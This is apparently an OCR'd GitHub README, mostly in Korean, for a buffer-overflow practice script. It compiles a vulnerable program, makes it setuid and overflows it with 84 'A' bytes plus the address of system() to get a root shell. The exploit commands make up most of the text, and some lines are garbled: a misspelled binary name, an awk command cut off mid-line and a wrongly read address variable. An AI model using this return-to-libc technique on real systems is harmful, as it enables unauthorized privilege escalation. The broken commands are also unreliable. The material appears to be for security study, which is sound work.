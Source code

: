 # BOF_Script
this refo contains unsafe code
# Explanation
-사전작업-
1. 작업을 수행할 계정으로 접속합니다.
2. /home/계정 폴더로 이동합니다.
3. 깃허브에 있는 파일들을 옮깁니다.
4. 스크립트를 실행합니다.

-스크립트-

#!/bin/bash
gcc -o vuln vuln.c //vuln.c 컴파일

chmod +s vunl //권한 부여

gcc -o ./getaddr getaddr.c -lc -ldl //getaddr.c 컴파일

/bin/bash2 //bash2 실행

export PATH=$PATH:. //현재 위치 path에 추가

sysaddr=$(./getaddr) //주소 구한 뒤 저장

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" 2> arg //주소 변환하고 vuln에 인자로 넣어서 실행한 뒤 출력값 저장

xxd arg | awk '{for(i=2; i<=NF; i++) ~ //arg에서 원하는 부분 추출해 /bin/bash를 가리키는 심볼릭 링크 생성에 사용

./vuln "$(perl -e 'print "A"x84 . pack("V", hex("$(<sysaddr)"))')" //system함주 주소 대입해 vuln 실행

whoami //결과 확인
